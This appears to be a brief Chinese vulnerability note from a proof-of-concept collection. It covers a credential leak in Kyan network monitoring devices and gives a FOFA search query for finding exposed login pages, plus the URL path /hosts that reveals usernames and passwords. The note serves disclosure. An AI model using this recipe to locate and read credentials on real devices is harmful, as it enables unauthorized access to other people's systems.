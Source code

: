 # Kyan-网络监控设备-账号密码泄露漏洞

## 资产收集
fofa：title="platform - Login"
![](img/index.png)
## POC
访问url，`http://127.0.0.1/hosts` ，显示用户名密码  
![](img/hosts.jpg)